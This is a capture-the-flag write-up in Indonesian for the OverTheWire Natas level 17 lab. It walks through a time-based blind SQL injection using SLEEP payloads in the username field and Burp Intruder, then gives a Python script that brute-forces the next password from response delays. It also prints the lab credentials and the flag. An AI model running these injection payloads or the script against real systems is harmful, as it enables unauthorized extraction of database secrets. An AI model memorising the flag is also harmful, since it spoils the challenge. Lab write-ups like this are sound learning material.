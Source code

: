 ```yaml
---
layout: default
level: 17
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas17
URL:      http://natas17.natas.labs.overthewire.org

# solve
- login with cred natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
- ketika aku lihat source codenya ini mirip dengan tantangan yang sebelumnya hanya saja tidak terdapat debug echonya
  ![alt text](docs/images/image-55.png)
- disini saya mencoba untuk melakukan sleep command sql
  ```bash
  # ketika saya coba ini dia menunggu 5 detik dan kurasa ini berhasil
  # kita mengetahui bahwa terdapat user natas18

  natas18" AND SLEEP(2);-- #
  # lama requestnya (true)
  
  natas19" AND SLEEP(2);-- #
  # cepat requestnya (false)
  ```
- kita sudah mengetahui cara mendapatkan true dan falsenya
  ```bash
  natas18" AND substring(password,1,1) = 'a' AND sleep(2);-- #
  natas18" AND BINARY substring(password,1,1) = 'a' AND sleep(2);-- #
  ```
- saya mencoba menggunakan burp suite untuk melakukan brute force
  ![alt text](docs/images/image-56.png)
  dan saya melihat angka 6 memiliki received paling lama yaitu 2000an dan ketika saya request item again ttp besar jadi saya beramsumsi bahwa huruf pertama nya adalah angka 6
  ![alt text](docs/images/image-57.png)
- lalu saya mencoba intruder lagi hanya saja dengan 2 variable agar lebih cepat
  ![alt text](docs/images/image-58.png)
  ![alt text](docs/images/image-59.png)
  ```bash
  6....b.d.j..lp.g....b.....l..g
  ```
  - dan disini jika kita lihat setelah 634 of 1900 aku telah mendapatkan setengah jawabanya meskipun sebenenrya ketika di coba ada juga beberapa yang error
  - namun karena lama jadi aku mencoba menggunakan python saja agar mempercepat proses brute force

## saya juga menemukan cara menggunakan python
```py
import requests
import re
from time import *

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

Url = "http://natas17.natas.labs.overthewire.org"

session = requests.session()

current_password = list()

while(True):
    for character in characters:
        print("Trying with: " + "".join(current_password) + character)
        startTime = time()
        response = session.post(Url, data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},auth=(username, password))
        endTime = time()
        if endTime - startTime > 2:
            current_password.append(character)
            break
    if len(current_password) == 32:
            break
```

# flag
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ